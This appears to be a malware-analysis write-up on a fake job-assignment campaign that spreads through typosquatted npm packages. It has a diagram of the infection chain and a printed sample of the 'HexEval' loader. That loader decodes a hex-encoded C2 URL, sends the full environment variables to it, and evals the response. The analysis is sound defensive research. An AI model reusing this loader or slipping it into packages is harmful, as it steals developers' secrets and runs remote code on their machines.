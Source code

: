 ```mermaid
    Note over V: Assignment instructs to clone repo /<br/> use specific npm packages
    V->>NPM: Clones Repo /<br/> Installs Malicious Package
    activate NPM
    NPM-->>V: Malicious Package (containing HexEval) Downloaded
    deactivate NPM
    Note over V: Runs code as part of assignment
    V->>V: HexEval Loader executes!
    V->>C2: HexEval sends host data
    activate C2
    C2-->>V: Delivers BeaverTail<br/>(Stage 2)
    deactivate C2
    V->>V: BeaverTail executes!
    TA->>V: (Optional) Requests Video Call, Pressures to run code outside Docker, screen-share
    TA->>LI: Deletes Profile /<br/> Blocks Victim (Covers Tracks)
```

----

## 겹겹이 쌓인 인형 (Nesting Dolls): A Multi-Stage Malicious Arsenal 🪆

The malware uses a "nesting doll" structure to evade detection and gradually increase its capabilities.

### Stage 1: HexEval Loader 📜

This is the initial payload embedded within the typosquatted npm packages. Its primary job is to deobfuscate critical strings, collect system information, and fetch the next stage.

**Anatomy of a Typical HexEval Loader:**

The loader uses a helper function (often named `g`) to decode hexadecimal strings at runtime.

```javascript
// Decode a hex-encoded string at run time
function g(h) {
  return h.replace(/../g, m => String.fromCharCode(parseInt(m, 16)));
}

// Array of hex-encoded strings (module names, C2 URL, etc.)
const hl = [
  g('72657175697265'), // "require"
  g('6178696f73'),     // "axios"
  g('706f7374'),       // "post"
  // C2 endpoint, e.g., hxxp://ip-check-server[.]vercel[.]app/api/ip-check/208
  g('687474703a2f2f69702d636865636b2d7365727665722e76657263656c2e6170702f6170692f69702d636865636b2f323038'),
  g('7468656e')        // "then"
];

// Main execution logic
module.exports = () =>
  require(hl[1]) // require("axios")
    [hl[2]](     // .post(
      hl[3],     //   C2_URL,
      { ...process.env } //   environment data
    )
    [hl[4]](r => eval(r.data)) // .then(r => eval(r.data))
    .catch(() => {});          // Ignore errors
```

---